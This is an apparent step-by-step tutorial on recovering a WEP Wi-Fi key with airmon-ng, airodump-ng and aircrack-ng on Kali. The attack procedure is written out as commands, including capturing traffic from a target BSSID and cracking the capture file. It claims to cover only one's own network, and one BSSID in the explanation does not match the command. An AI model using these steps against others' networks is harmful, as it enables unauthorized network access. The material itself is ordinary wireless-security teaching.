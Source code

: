 Boot / Install Kali

If on virtualbox, you will need a USB wifi stick. Once added, click the usb icon in the bottom right and add the device to your guest OS
![](http://teachthe.net/topclipbox/2016-05-03_22-29-253QLRLY.png)

```shell
airmon-ng
```

You should see something like this
![](http://teachthe.net/topclipbox/2016-05-03_22-31-4102HNZ4.png)

From the above, get your Interface name and use it below in place of 'wlan0'

```
airmon-ng start wlan0
```

This should tell us monitor mode is enabled for this interface.

```
airodump-ng wlan0
```

This will show us all wifi points detected by the card, along with their encryption type. It should look like this:

![](http://teachthe.net/topclipbox/2016-05-03_22-34-28SOJ6M4.png)

Once you see your network, hit control+c to kill it.

(Note, this guide only shows how to break into your own WEP protected network)

```
airodump-ng -c 6 --bssid E8:DE:27:BD:CA:3C -w ~/wep wlan0
```

For this command, we need to make a few modifications:

1) "-c 6" is specifying to use channel 6. Replace the "6" with the number from the CH column above for your network.

2) "--bssid 04:1E:64:98:96:AB" is specifying the unique ID of the actual wifi network you are targeting. Replace the "04:1E:64:98:96:AB" with the value from the BSSID column above for your network.

3) As always, replace wlan0 with your Interface name.

Now once this command is running, it will start listening to traffic on the network, gathering the info it needs to break in. You will observe over time the #Data column grows. Once it hits 20000, you're in a good spot to attempt the attack. It should look like this:

![](http://teachthe.net/topclipbox/2016-05-03_22-57-30BPM31I.png)

While leaving it running, open another terminal and run this command:

```
aircrack-ng -b E8:DE:27:BD:CA:3C ~/wep-01.cap
```
For this command, we need to make a few modifications:

1) Replace "E8:DE:27:BD:CA:3C" with the BSSID from the previous command of the network you are targeting.

2) "~/wep-01.cap" is referring to the file storing the results of the dump from the previous command. In the previous command, we passed in a parameter "-w ~/wep" saying write the logs to our home directory. Go to your home directory, and find the .cap file located there, and replace the "wep-01.cap" in this command with the name of that file.

If you get a "failed" message. Just hit control+c and wait for more data to be collected, then try again.

When you achieve success, you should see something like this!

![](http://teachthe.net/topclipbox/2016-05-03_22-58-17BTHZA6.png)
